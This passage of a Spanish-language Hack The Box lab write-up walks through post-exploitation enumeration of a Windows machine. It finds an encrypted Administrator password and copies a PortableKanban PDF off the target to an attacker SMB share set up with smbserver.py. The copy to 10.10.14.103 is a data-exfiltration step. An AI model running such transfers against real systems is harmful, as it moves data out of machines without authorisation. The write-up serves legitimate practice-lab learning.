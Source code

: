Bien, información de un usuario llamado **Administrator** y entre ella una contraseña encriptada (:

Buscando maneras de desencriptarla no llegamos a ningún resultado, acá me reperdi un buen rato, así que decidí buscar ayuda...

Me indicaron que enumerara el directorio de **jason** (`c:\Users\jason`) (cosa que ya había hecho, peeeeero sobre vi algunas cosas)...

En el directorio `c:\Users\jason\Downloads` vemos una carpeta llamada `PortableKanban` y en ella varios objetos de **kanban**, uno de ellos es la guía para el usuario:

```powershell
PS C:\Users\jason\Downloads\PortableKanban> dir

    Directory: C:\Users\jason\Downloads\PortableKanban

Mode                 LastWriteTime         Length Name
...
-a----          1/4/2018   8:14 PM        1050092 User Guide.pd
```

Copiándonoslo a nuestra máquina, abriéndolo con `xdg-open` y leyéndolo caemos en cuenta de algo...

**(Podemos copiarlo fácilmente compartiéndonos una carpeta con *SMB* (o incluso colocándolo en la carpeta compartida que ya existe en la máquina)).

Levantamos carpeta llamada `smbFolder`:

```bash
❱ smbserver.py smbFolder $(pwd) -smb2support
```

Y desde **Windows** indicamos:

```powershell
PS C:\Users\jason\Downloads\PortableKanban> copy "User Guide.pdf" \\10.10.14.103\smbFolder\"User Guide.pdf"
```

Ya lo tendríamos:

```bash
❱ file User\ Guide.pdf 
User Guide.pdf: PDF document, version 1.7
```

Lo abrimos y:

![340bash_pdf_kanban1](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/atom/340bash_pdf_kanban1.png)

Así que todo lo que pase por **kanban** debe ser manejado desde **redis**...

![340bash_pdf_kanban2](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/atom/340bash_pdf_kanban2.png)

Y (lo que ya sabíamos) que existe un archivo con todas las configuraciones del servidor **redis** llamado `redis.windows-service.conf`.

![340bash_pdf_kanban3](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/atom/340bash_pdf_kanban3.png)
